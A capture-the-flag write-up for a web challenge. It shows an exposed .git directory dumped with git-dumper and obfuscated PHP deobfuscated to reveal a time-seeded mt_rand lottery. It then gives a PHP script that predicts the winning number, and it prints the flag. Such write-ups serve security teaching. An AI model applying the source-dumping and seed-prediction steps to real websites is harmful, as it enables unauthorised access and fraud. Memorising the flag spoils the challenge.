

# Web / Tenue de soirée requise

## Challenge (200 points)
Dans le fichier excel, une cible importante est liée à un lien vers une loterie. Cette loterie permet au gagnant d'accéder à une soirée VIP. Nous supposons que la cible sera présente à cet événement.
Nous devons gagner cette loterie afin de pouvoir prendre contact avec elle.

Bien commencer: Si nous parvenons à récupérer l'algorithme de génération de la loterie, nous pouvons gagner à coup sûr.

## Inputs
- Web site: `subscription.challenge.operation-kernel.fr`

## Solution
Web get redirected to https://subscription.challenge.operation-kernel.fr/public/

The website proposes a game where we need to guess a number of 10 digits to get the flag::



We'd need the source code of the application to understand how the number is generated.

Looking for common directories that could be left, like src, source, .git, etc, we find out that `.git/` returns `403`: it is forbidden, but it exists !

Let's try to dump the `GIT` repo using `git-dumper`:
```shell
$ git-dumper https://subscription.challenge.operation-kernel.fr/.git repo
[-] Testing https://subscription.challenge.operation-kernel.fr/.git/HEAD [200]
[-] Testing https://subscription.challenge.operation-kernel.fr/.git/ [403]
[-] Fetching common files
[-] Fetching https://subscription.challenge.operation-kernel.fr/.git/description [200]
[-] Fetching https://subscription.challenge.operation-kernel.fr/.git/hooks/applypatch-msg.sample [200]
[-] Fetching https://subscription.challenge.operation-kernel.fr/.gitignore [403]
(...)
```

It works and we now have the source code for the application. Looking for what relates to the game:
```shell
$ find repo -name '*.php' | grep -i game
repo/app/Process/GameProcess.php
repo/app/Http/Controllers/GameController.php
repo/app/Http/Requests/GameRequest.php
```

`GameRequest.php` shows the expected format for the number: at least 10 digits:
```php
<?php
    public function rules()
    {
        return [
          'name' => 'required|min:3|max:20|alpha',
          'number' => 'regex:/^\d{10,}$/i'
        ];
    }
```

`GameController.php` shows that `GameProcess` function `play()` is called with submitted `name` and `number`:
```php
<?php
  public function postForm(GameRequest $request, GameProcess $gameprocess, TicketProcess $ticket){
    $t = $gameprocess->play($_POST['name'], $_POST['number']);
    $data = $t ? $ticket->generate($_POST['name']) : false ;
    return view("result")->with('res', $t)->with('data',$data);
  }
```

And finally, `GameProcess.php` shows quite some obfuscated code:
```php
<?php

namespace App\Process; class GameProcess { private function nmqrF($AvWAj) { goto NMXgZ; kv5ou: p1w0G: goto V_tm7; t4VRF: $tqGDw .= chr(hexdec($AvWAj[$VP0PR] . $AvWAj[$VP0PR + 1])); goto Fdr8h; GMqtF: $VP0PR += 2; goto VhseN; NMXgZ: $tqGDw = ''; goto X18sW; Fdr8h: GT1Ly: goto GMqtF; DZx0E: N4u_P: goto IzKaq; VhseN: goto p1w0G; goto DZx0E; IzKaq: return $tqGDw; goto RySOT; X18sW: $VP0PR = 0; goto kv5ou; V_tm7: if (!($VP0PR < strlen($AvWAj) - 1)) { goto N4u_P; } goto t4VRF; RySOT: } private function wCIA1($WepPf) { goto nf131; nf131: $SXEXN = ''; goto nr2M7; BsNwA: return $SXEXN; goto QOXZt; nr2M7: foreach (str_split($WepPf) as $COwbt) { $SXEXN .= ord($COwbt); WOo5D: } goto tRNjZ; tRNjZ: LQt0G: goto BsNwA; QOXZt: } private function kQzio($FwST2) { goto HUqWd; HUqWd: eval($this->nmqrF("6576616C286261736536345F6465636F646528274A485A50524870454944306764476C745A5367704943306764476C745A536770494355674E54733D2729293B")); goto ANV5w; f4E_x: return $G11Pq; goto ykALq; Yj9IR: $G11Pq = $G11Pq ^ $FwST2; goto f4E_x; ANV5w: $FwST2 = $FwST2 ^ $vODzD; goto KrQAb; hoFT1: $G11Pq = mt_rand(); goto Yj9IR; KrQAb: mt_srand($FwST2); goto hoFT1; ykALq: } public function play($su92R, $nmBvo) { goto u1lv6; xC0KB: return false; goto TeXZe; XU62G: return true; goto HquGL; HquGL: GxqFf: goto xC0KB; e4Wxp: $kx4Dd = $this->kQzio($FwST2); goto JYFjT; u1lv6: $FwST2 = $this->wCIA1($su92R); goto e4Wxp; JYFjT: if (!(intval($kx4Dd) === intval($nmBvo))) { goto GxqFf; } goto XU62G; TeXZe: } }
```

Let's cleanup the `play()` function:
```php
<?php
  public function play($su92R, $nmBvo)
  {
    goto u1lv6;
    xC0KB: return false;
    goto TeXZe;
    XU62G: return true;
    goto HquGL;
    HquGL: GxqFf: goto xC0KB;
    e4Wxp: $kx4Dd = $this->kQzio($FwST2);
    goto JYFjT;
    u1lv6: $FwST2 = $this->wCIA1($su92R);
    goto e4Wxp;
    JYFjT: if (!(intval($kx4Dd) === intval($nmBvo))) { goto GxqFf; } goto XU62G;
    TeXZe:
    }
```

Let's remove all the gibberish:
```php
<?php
  public function play($name, $number)
  {   
    $FwST2 = $this->wCIA1($name);
    $kx4Dd = $this->kQzio($FwST2);
    if (!(intval($kx4Dd) === intval($number))) { return false; } return true;
  }
```

So essentially what `play()` does is return `true` if `kQzio(wCIA1($name)) == $number`, else `false`. So what we can do is modify `GameProcess.php`, extend the `GameProcess` class, so we can call `kQzio(wCIA1('Thesee'))`. To make it easier, I also modified the `GameProcess` class functions from `private` to `public`:
```php
<?php

namespace App\Process; class GameProcess { public function nmqrF($AvWAj) { goto NMXgZ; kv5ou: p1w0G: goto V_tm7; t4VRF: $tqGDw .= chr(hexdec($AvWAj[$VP0PR] . $AvWAj[$VP0PR + 1])); goto Fdr8h; GMqtF: $VP0PR += 2; goto VhseN; NMXgZ: $tqGDw = ''; goto X18sW; Fdr8h: GT1Ly: goto GMqtF; DZx0E: N4u_P: goto IzKaq; VhseN: goto p1w0G; goto DZx0E; IzKaq: return $tqGDw; goto RySOT; X18sW: $VP0PR = 0; goto kv5ou; V_tm7: if (!($VP0PR < strlen($AvWAj) - 1)) { goto N4u_P; } goto t4VRF; RySOT: } public function wCIA1($WepPf) { goto nf131; nf131: $SXEXN = ''; goto nr2M7; BsNwA: return $SXEXN; goto QOXZt; nr2M7: foreach (str_split($WepPf) as $COwbt) { $SXEXN .= ord($COwbt); WOo5D: } goto tRNjZ; tRNjZ: LQt0G: goto BsNwA; QOXZt: } public function kQzio($FwST2) { goto HUqWd; HUqWd: eval($this->nmqrF("6576616C286261736536345F6465636F646528274A485A50524870454944306764476C745A5367704943306764476C745A536770494355674E54733D2729293B")); goto ANV5w; f4E_x: return $G11Pq; goto ykALq; Yj9IR: $G11Pq = $G11Pq ^ $FwST2; goto f4E_x; ANV5w: $FwST2 = $FwST2 ^ $vODzD; goto KrQAb; hoFT1: $G11Pq = mt_rand(); goto Yj9IR; KrQAb: mt_srand($FwST2); goto hoFT1; ykALq: } public function play($su92R, $nmBvo) { goto u1lv6; xC0KB: return false; goto TeXZe; XU62G: return true; goto HquGL; HquGL: GxqFf: goto xC0KB; e4Wxp: $kx4Dd = $this->kQzio($FwST2); goto JYFjT; u1lv6: $FwST2 = $this->wCIA1($su92R); goto e4Wxp; JYFjT: if (!(intval($kx4Dd) === intval($nmBvo))) { goto GxqFf; } goto XU62G; TeXZe: } }

class MyGameProcess extends GameProcess
{
  public function sol($name) {
    return $this->kQzio($this->wCIA1($name));
  }
}

/* Get the number */
$name = 'Thesee';
$mygameprocess = new MyGameProcess;
$number = $mygameprocess->sol($name);

/* Check the number */
$status = $mygameprocess->play($name, $number);
if ($status == true) { echo $number; }
```

Running the script in a loop shows the generated numbers, which seem to change every ~5sec:
```shell
$ while true; do php -f GameProcess.php; echo ''; sleep 1; done
84104099360367703
84104099360367703
84104099360367703
84104099360367703
84104099360367703
84104099587985052
84104099587985052
84104099587985052
84104099587985052
84104100437848060
84104100437848060
84104100437848060
84104100437848060
84104100437848060
84104100117506931
84104100117506931
84104100117506931
84104100117506931
84104100117506931
84104099686042309
84104099686042309
```

For the sake of completeness, we can confirm that by decoding the strange hex string:
```
    # nmqrF("6576616C286261736536345F6465636F646528274A485A50524870454944306764476C745A5367704943306764476C745A536770494355674E54733D2729293B");
    # eval(base64_decode('JHZPRHpEID0gdGltZSgpIC0gdGltZSgpICUgNTs='));
    # eval($vODzD = time() - time() % 5;);
```

Unfortunately, I wasn't able to validate the challenge, because of the short 5s delay... Apparently, I wasn't fast enough ;( Which is weird, because it seemed doable within 5s...

Anyway, after the CTF ended, I realized I could copy the output of my script to the clipboard using `xclip` and still run it in a loop as above. Doing so, I can reliably `paste` whatever in the clipboard:
```shell
$ while true; do php -f GameProcess.php | xclip -selection clipboard; done
```

And this works perfectly:


And the QR code says: HACK{Y0uC4nNowG0toE4t}_Thesee

## PHP code
Complete solution in [GameProcess.php](./GameProcess.php)

## Flag
HACK{Y0uC4nNowG0toE4t}
